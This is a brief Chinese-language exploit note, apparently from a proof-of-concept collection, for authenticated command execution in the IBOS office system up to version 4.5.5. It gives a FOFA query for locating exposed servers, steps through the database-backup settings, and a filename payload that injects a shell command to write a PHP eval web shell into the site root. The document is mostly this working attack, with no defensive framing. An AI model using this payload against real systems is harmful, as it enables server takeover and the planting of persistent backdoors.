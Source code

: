 # IBOS酷办公系统 后台命令执行

FOFA：

```
body="IBOS" && body="login-panel"
```

利用条件

* IBOS_4.5.5及以前的版本
* 需要具备后台登陆权限

**PoC：**

登录之后点击管理后台。

在后台管理中找到通用设置，在数据库的备份中选择更多选项，数据备份方式选择系统 MySQL Dump (Shell) 备份，然后提交。

拦截此数据包，修改其中的filename参数,会在根目录生成2021.php  

```
2021%26echo "<?php eval($_REQUEST[8]);?>">2021%PATHEXT:~0,1%php%262021
```

via：xzuser@https://xz.aliyun.com/t/9115